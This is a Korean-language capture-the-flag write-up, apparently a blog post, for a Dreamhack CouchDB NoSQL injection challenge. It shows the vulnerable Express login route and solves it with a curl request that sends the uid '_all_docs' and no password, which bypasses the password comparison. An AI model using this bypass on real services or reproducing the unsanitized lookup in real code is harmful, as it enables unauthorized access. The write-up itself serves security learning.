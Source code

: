 ```yaml
---
title: "[2025-07-24] NoSQL-CouchDB111"
excerpt: "CouchDB injection"

categories:
  - Problem
tags:
  - [NoSQL injection, CouchDB]

permalink: /Problem/[2025-07-24] NoSQL-CouchDB111/

toc: true
toc_sticky: true

date: 2025-07-24
last_modified_at: 2025-07-24
---
```


## 🦥 본문

- app.js

```jsx
var createError = require('http-errors');
var express = require('express');
var path = require('path');
var cookieParser = require('cookie-parser');

const nano = require('nano')(`http://${process.env.COUCHDB_USER}:${process.env.COUCHDB_PASSWORD}@couchdb:5984`);
const users = nano.db.use('users');
var app = express();

// view engine setup
app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'ejs');

app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());
app.use(express.static(path.join(__dirname, 'public')));

/* GET home page. */
app.get('/', function(req, res, next) {
  res.render('index');
});

/* POST auth */
app.post('/auth', function(req, res) {
    users.get(req.body.uid, function(err, result) {
        if (err) {
            console.log(err);
            res.send('error');
            return;
        }
        if (result.upw === req.body.upw) {
            res.send(`FLAG: ${process.env.FLAG}`);
        } else {
            res.send('fail');
        }
    });
});

// catch 404 and forward to error handler
app.use(function(req, res, next) {
  next(createError(404));
});

// error handler
app.use(function(err, req, res, next) {
  // set locals, only providing error in development
  res.locals.message = err.message;
  res.locals.error = req.app.get('env') === 'development' ? err : {};

  // render the error page
  res.status(err.status || 500);
  res.render('error');
});

module.exports = app;
```

사용자로부터 uid와 upw를 받는다. uid를 통해 CouchDB에서 계정을 찾고 해당 결과에서 upw와 사용자가 보낸 upw가 같으면 FLAG가 나온다.

### 풀이과정

1. uid 값에 `_all_docs` 를 입력한다.
2. 아래와 같이 요청을 보낸다.
    
    ```jsx
    curl -X POST http://host1.dreamhack.games:17032/auth -H "Content-Type: application/json" -d '{"uid": "_all_docs"}'
    ```
    
    - uid를 `_all_docs` 를 보내면 에러 없이 get 함수가 실행된다
    - 해당 페이지에서는 upw인 키 값이 없기 때문에 result.upw는 undefined가 된다.
    - upw를 보내지 않으면 undefined가 되기 때문에 조건문을 만족하여 FLAG 값이 나온다.